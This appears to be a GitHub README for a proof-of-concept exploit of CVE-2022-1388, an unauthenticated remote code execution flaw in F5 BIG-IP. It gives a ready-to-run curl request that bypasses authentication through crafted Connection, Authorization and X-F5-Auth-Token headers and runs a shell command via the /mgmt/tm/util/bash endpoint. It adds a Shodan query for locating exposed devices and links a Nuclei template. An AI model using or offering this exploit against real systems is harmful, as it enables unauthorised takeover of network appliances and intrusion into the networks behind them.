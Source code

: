 # CVE-2022-1388
F5 BIG-IP Unauthenticated RCE   
&nbsp;

## POC:
Use following POST request to execute ```id``` command.
```
curl -i -s -k -X $'POST' \
    -H $'Host: localhost' -H $'Connection: keep-alive, X-F5-Auth-Token' -H $'Authorization: Basic YWRtaW46' -H $'X-F5-Auth-Token: a' -H $'Content-Length: 39' \
    --data-binary $'{\"command\":\"run\",\"utilCmdArgs\":\"-c id\"}' \
    $'https://IP_HERE/mgmt/tm/util/bash'
 ```
 ![poc](./poc.png)
&nbsp;

## Shodan Query:
```
http.title:"BIG-IP&reg;-+Redirect" +"Server" 
```
&nbsp;

## Nuclei Template:
[CVE-2022-1388.yaml](./CVE-2022-1388.yaml)
</br>&nbsp;

## Credit
[AnnaViolet20](https://twitter.com/AnnaViolet20/status/1523564632140509184?s=20&t=dA5mPYazYHS6MuaFAaRvCw)'s tweet.</br>
[numanturle](https://github.com/numanturle/CVE-2022-1388)'s github page.
